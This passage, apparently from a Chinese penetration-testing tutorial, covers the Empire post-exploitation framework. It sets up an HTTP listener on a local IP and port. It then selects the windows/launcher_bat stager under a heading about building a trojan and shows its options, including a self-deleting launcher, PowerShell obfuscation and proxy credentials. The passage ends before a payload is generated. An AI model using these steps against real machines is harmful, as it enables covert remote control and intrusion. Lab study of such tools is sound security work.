 ```

```

使用set命令可以添加用户名和端口，execute命令是用于开启监听

```
(Empire: listeners/http) > set Name cyp
(Empire: listeners/http) > set Host http://192.168.188.133：777
(Empire: listeners/http) > set Port 777
(Empire: listeners/http) > execute

```

![image-20211109184210104](https://s2.loli.net/2022/03/26/9dwHGFD3JpcW2qy.png)

然后可以使用back命令回到上一级再用list命令可以查看到我们新添加的用户和端口号

![](https://s2.loli.net/2022/03/26/9dwHGFD3JpcW2qy.png)

## 建立一个木马

生成玩监听之后，我们需要做的就是生成一个客户端

回到主界面用usestager查看所有的生成方式（multi是通用，osx是mac系统）

![image-20211109184645539](https://s2.loli.net/2022/03/26/iX3IBuL452Hrnsp.png)

Windows 就选择 launcher_bat launcher_vbs 等， PHP 就选择 hop_php  。这里我选择一个windows/launcher_bat，然后再info一下

```
(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher

Description:
  Generates a self-deleting .bat launcher for
  Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only.
  ObfuscateCommand False       Token\All\1,Launcher\STDIN++\12467The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only.
  Language         True        powershell        Language of the stager to generate.
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  Delete           False       True              Switch. Delete .bat after running.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.

```